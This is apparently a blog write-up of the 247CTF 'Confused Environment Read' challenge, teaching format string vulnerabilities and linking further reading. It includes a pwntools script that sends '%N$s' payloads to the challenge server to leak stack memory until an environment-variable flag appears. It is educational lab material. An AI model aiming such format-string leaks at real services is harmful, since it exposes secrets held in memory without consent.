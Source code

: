 ```yaml
---
title: "247CTF - Confused Environment Read"
date: 2021-02-23
categories: [247ctf, ctf]
image: /images/247ctf/logo_0.png
tags: [247ctf, assembly, ctf, tutorial, walkthrough, debug, reverse engineering, exploiting, pwn, binary exploitation, confused environment read, format string]
description: 247CTF Confused Environment Read (PWN) challenge explained in detail. We will see how to solve the challenge and understand the underlying concepts.
hasComments: true
---
```


![247ctf0](/images/247ctf/pwnable/confused_environment_read/description.png)

This binary exploitation challenge is, at the moment of writing this write-up, rated as *EASY* with a difficulty score of 2.22 out of 5.0. Its description states the following:

> Can you abuse our confused environment service to read flag data hidden in an environment variable?

There is no binary to download an reverse this time. Instead we are given a URL and a port to connect to. In order to connect, I'll be using [netcat](https://en.wikipedia.org/wiki/Netcat) along with [rlwrap](https://github.com/hanslub42/rlwrap). In case you are wondering what rlwrap does, it basically wraps the readline commands and allows a user to use key arrows with commands line netcat, avoiding the annoying and infamous `^[[D^[[A` and such. 

Connecting to the challenge is as easy as `rlwarp nc URL PORT`

<p align="center">
	<img src="/images/247ctf/pwnable/confused_environment_read/execution.png">
</p>

Given that we can only interact with the execution of the binary and we have no idea what the source code is, the natural step to follow is to try several inputs and see if it breaks, looking for possible vulnerabilities. As shown in the image above, the binary is vulnerable to [**FORMAT STRING**](https://en.wikipedia.org/wiki/Printf_format_string). There are several <yellow>very good</yellow> technical papers or articles about the format string vulnerability, I'll link some:

- Format string vulns in gory detail, by Ron Bowes. [Link](https://blog.skullsecurity.org/2015/defcon-quals-babyecho-format-string-vulns-in-gory-detail)
- Exploiting Format String vulnerabilities, by scut from Team Teso. [Link](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
- Format string exploitation tutorial, by Saif El-Sherei. [Link](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
- Exploit 101 - Format Strings, by Alexandre Cheron. [Link](https://axcheron.github.io/exploit-101-format-strings/)
- Format string attack, by OWASP. [Link](https://owasp.org/www-community/attacks/Format_string_attack)
- Format string exploitation, by Fuzzysecurity. [Link](https://www.fuzzysecurity.com/tutorials/expDev/10.html)
- Format string vulnerability, by Syracuse University. [Link](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
- This one is also very good, but in Spanish. [Link](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/5-format-string.html)

You can also learn about format string in video format, [LiveOverflow](https://www.youtube.com/results?search_query=liveoverflow+format+string)'s videos on the topic are very recommended.

I will briefly introduce format string vulnerability so everyone reading this can understand what is actually happening. If you want to go deeper into the topic, please read the articles linked above. 

A format string vulnerability happens when a printing function, like `printf`, that works with format specifiers, like `%d`, is misused. That is, the parameters passed to the function do not follow its intended behavior.

For example, a correct use of the `printf` function is: `printf("Your name is %s", name);`, while the following example is vulnerable to format string: `printf(name);`. Imagine if the variable `name` is controlled by the user. A given user could input things like `%s` or `%x` (or any valid format specifier). The result would be memory leaking, abusing the format string vulnerability. 

Basically, the vulnerability happens because `printf` (and all the function within the family) have a variable number of arguments. The number of arguments is defined by the number of format specifiers (characters starting with `%`) within the format string itself. That is, a format string like `printf("Exploit %s, not %s.", "code", "people");` will expect two arguments and the function will retrieve them from the stack regardless the correctness of its invocation. In other words, the statement `printf("%x%x%x%x");` will print 4 arguments from the stack as hexadecimal, even though they were not specified when calling the function. 

There are several format specifiers we can use to leak information from the stack. In fact, `printf` family functions work with _format specifiers_, and several sub-specifiers like _flags_, _width_, _precision_ or _length_ following the `%[flags][width][.precision][length]specifier` pattern. I recommend you to read this [documentation](https://www.cplusplus.com/reference/cstdio/printf/) to find out all the valid specifiers. The next image shows the most common __format specifiers__ when exploiting a format string vulnerability ([Source](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)).

<p align="center">
	<img src="/images/247ctf/pwnable/confused_environment_read/format_string_specifiers.png">
</p>

Please note that some specifiers work with pointers. That is, they expect a pointer and, as such, they will _dereference_ (or try to) the address they point to.

Leveraging a format string vulnerability to leak memory data is possible because functions assume the stack is configured according to the number of format specifiers they will read from the stack.  

Specifically, stack's behavior when exploiting the vulnerability is shown in the image below. ([Source](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf))

<p align="center">
	<img src="/images/247ctf/pwnable/confused_environment_read/stack_format_string.png">
</p>

Now, sticking to our challenge, in order to abuse the vulnerability and leak memory contents, we can make use of the positional specifier and the string format specifier. As it was aforementioned, if the address dereferenced by the `%s` format specifier is an invalid address, the program will crash (*netcat connection will close*). 

Since we don't control what addresses are placed in the stack and neither can we debug it, my approach was to simply leak each and every address from the stack. That is, iterate and step through every position following the next pattern: `%{index}$s` where `index = 1`. In the next execution, `index = index + 1` and so forth. This pattern translated to a format specified is as simple as `$1$x`.

This works because `printf` functions allow the use of [positional parameters](https://stackoverflow.com/questions/6322540/how-do-positional-arguments-like-1-work-with-printf).

```python
# RazviOverflow
# Python3

from pwn import *

# Iterate through positions 1 to 199
for index in range(1,200):
	payload = "%{}$s".format(index)

	# Establish connection
	binary = remote("05c9615dee1c25eb.247ctf.com", 50262)
	binary.recv()
	binary.sendline(payload)
	response = binary.recv()

	# In case there is en error or EOF is received, 
	# we close connection and continue leaking next position
	try:
		if b"247CTF" in response:
			print("[+] Found flag at position {}.".format(index))
			print(response)
			break
	except Exception as ex:
		binary.close()
```

Executing the exploit that abuses the vulnerability and leaks the memory, we will eventually leak the corresponding environment variable.

<p align="center">
	<img src="/images/247ctf/pwnable/confused_environment_read/exploited.png">
</p>

I hope you enjoyed my write-up. I'd be delighted to know whether it helped you progress and learn new things. Do not hesitate to reach me out via [Twitter](https://twitter.com/Razvieu). I'm always eager to learn new things and help others out :)

## More challenges
* Click [here](/247ctf) to see 247CTF index.